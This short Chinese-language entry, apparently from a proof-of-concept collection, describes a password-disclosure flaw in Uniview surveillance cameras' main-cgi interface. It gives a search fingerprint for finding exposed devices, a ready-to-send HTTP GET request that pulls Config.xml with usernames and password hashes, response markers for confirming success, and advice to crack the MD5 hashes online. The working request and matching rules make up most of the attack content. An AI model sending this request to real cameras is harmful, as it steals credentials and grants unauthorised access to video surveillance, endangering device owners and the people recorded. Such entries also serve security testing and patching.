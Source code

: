 ﻿# 宇视科技视频监控main-cgi密码泄露漏洞

> 更新时间：2023-12-18

> 漏洞编号：

> 漏洞说明：宇视(Uniview)高清网络摄像机是一种高性能的网络摄像机，它可以通过网络进行视频传输和监控。该摄像机采用先进的视频技术，具有高清晰度、低照度、宽动态等特点，能够提供高质量的视频图像。该系统main-cgi接口处存在信息泄露漏洞，可以获取账号密码。使用浏览器访问会下载一个Config.xml文件,其中UserName是用户名，UserPass是密码。使用MD5在线解密工具

> 漏洞特征：app="uniview-视频监控"

> 验证脚本：HTTP

```
GET /cgi-bin/main-cgi?json={"cmd":255,"szUserName":"","u32UserLoginHandle":-1} HTTP/1.1
Connection: close
Accept-Encoding: gzip
```

> 响应代码特征：200

> 响应内容特征：UserName

> 上传文件定位：


> 验证文件来源：宇视科技视频监控main-cgi密码泄露漏洞.poc
